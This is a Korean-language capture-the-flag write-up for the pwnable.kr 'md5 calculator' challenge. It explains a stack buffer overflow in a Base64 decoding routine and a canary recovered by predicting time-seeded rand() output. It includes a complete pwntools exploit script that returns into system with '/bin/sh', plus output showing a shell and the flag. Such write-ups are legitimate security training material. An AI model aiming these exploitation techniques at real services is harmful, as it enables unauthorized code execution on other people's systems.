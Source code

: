 # [pwnable.kr] md5 calculator writeup



```shell
We made a simple MD5 calculator as a network service.
Find a bug and exploit it to get a shell.

Download : http://pwnable.kr/bin/hash
hint : this service shares the same machine with pwnable.kr web service

Running at : nc pwnable.kr 9002
```

ㄱㄱ

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

canary 정도가 걸려있다.

#### my_hash()

```c
unsigned int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  int v2[8]; // [esp+Ch] [ebp-2Ch]
  unsigned int canary; // [esp+2Ch] [ebp-Ch]

  canary = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    v2[i] = rand();
  return v2[4] - v2[6] + v2[7] + canary + v2[2] - v2[3] + v2[1] + v2[5];
}
```

저 리턴 값을 사용자에게 출력해주는데, 일단 여기서 seed를 알 수 있는 경우 canary를 역연산해서 알아낼 수 있다는 걸 주의하고 가자.

#### process_hash()

```c
unsigned int process_hash()
{
  int length; // ST14_4
  char *ptr; // ST18_4
  char buffer; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&buffer, 0, 0x200u);
  while ( getchar() != 10 )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 0x400, stdin);
  memset(&buffer, 0, 0x200u);
  length = Base64Decode(g_buf, (int)&buffer);
  ptr = calc_md5((int)&buffer, length);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```

일단 취약점틱한(?) 어색한 부분을 발견할 수 있다. g_buf는 사용자가 입력한 base64 값을 저장하는 전역변수인데, 해당 주소의 값을 읽어 decode한 뒤 로컬 변수 buffer에 저장한다. 위의 코드를 살펴보면, 각각의 변수들을 초기 memset을 이용해 초기화해주는 과정에서 size의 차이가 발생함을 알 수 있다.

bof의 냄새가 솔솔 나는것 같다.

#### Base64Decode()

```c
int __cdecl Base64Decode(const char *g_buf, int stack_buf)
{
  signed int v2; // ST2C_4
  FILE *stream; // ST34_4
  int v4; // eax
  int v5; // ST38_4
  int v6; // eax
  int v7; // ST3C_4

  v2 = calcDecodeLength(g_buf);
  stream = (FILE *)fmemopen(g_buf, strlen(g_buf), "r");
  v4 = BIO_f_base64();
  v5 = BIO_new(v4);
  v6 = BIO_new_fp(stream, 0);
  v7 = BIO_push(v5, v6);
  BIO_set_flags(v7, 256);
  *(_BYTE *)(stack_buf + BIO_read(v7, stack_buf, strlen(g_buf))) = 0;
  BIO_free_all(v7);
  fclose(stream);
  return v2;
}
```

여기서 사용되는 함수들은 openssl의 함수들이라고 하는데, 자세하게 살펴보지는 않아서 잘은 모르겠다. 다만 BIO_read() 함수에서 g_buf에 있던 데이터들이 디코딩되어 아까봤던 로컬 변수에 저장될 거라고 예상된다. 실제 확인해보니 해당 함수에서 데이터가 복사되는 것이 맞다.

세 번째 인자에 들어가는 값만큼 데이터를 복사하는데, 기준이 최대 0x400만큼 저장할 수 있는 g_buf이기 때문에, stack buffer overflow가 발생할 수 있게된다.

현재 시간을 seed 값으로 사용하므로 프로그램에서 던져주는 값을 역연산하면 canary 값도 있으니 손쉽게 쉘을 따는 것이 가능하다.

system 함수의 plt가 존재해서 libc leak할 필요도 없다.

#### exploit

```python
#/usr/bin/python
from pwn import *
import base64
from ctypes import *
from ctypes.util import find_library 

#libc = cdll.Loadlibrary(find_library('c'))
libc = CDLL(find_library('c'))
libc.srand(libc.time(0))
array = [ libc.rand() for i in range(8)]

context.log_level = 'debug'
r = process('./hash')
r = remote('pwnable.kr', 9002)

system_plt = 0x8048880
g_bufs = 0x804b0e0 + 0x2d0

r.recvuntil('captcha : ')
recv = int(r.recvline()[:-1])
r.sendline(str(recv))
canary = (recv - array[4] + array[6] - array[7] - array[2] + array[3] - array[1] - array[5]) & 0xffffffff;
success('canary = '+hex(canary))
r.recvuntil('Encode your data with BASE64 then paste me!\n')

payload = ''
payload += 'A'*(0x200)
payload += p32(canary)
payload += 'BBBB'*3
payload += p32(system_plt)
payload += 'BBBB'
payload += p32(g_bufs)

#gdb.attach(r, 'b* 0x8048da8')
r.sendline(base64.encodestring(payload).replace('\n', '')+'/bin/sh'+'\x00')

r.interactive()
```

난수 생성이길래 python의 random 류의 함수들을 사용하면 안될까 생각했었는데, 찾아보니 C와 Python에서 random으로 사용하는 방법이 달라서 같은 seed 값을 넣어도 다른 결과가 나온다는 것 같다.

ctypes를 이용해서 python에서 c 함수를 그대로 사용해서 구현할 수 있었다. cdll.Loadlibrary()는 왜 안되는지 잘 모르겠다..



```shell
[+] Starting local process './hash': pid 19089
[+] Opening connection to pwnable.kr on port 9002: Done
[+] canary = 0xa71a0400
[*] Switching to interactive mode
MD5(data) : 58936ab32428a001f40027fcb3c60bfb
$ id
uid=1036(md5calculator) gid=1036(md5calculator) groups=1036(md5calculator)
$ cat flag
Canary, Stack guard, Stack protector.. what is the correct expression?
```






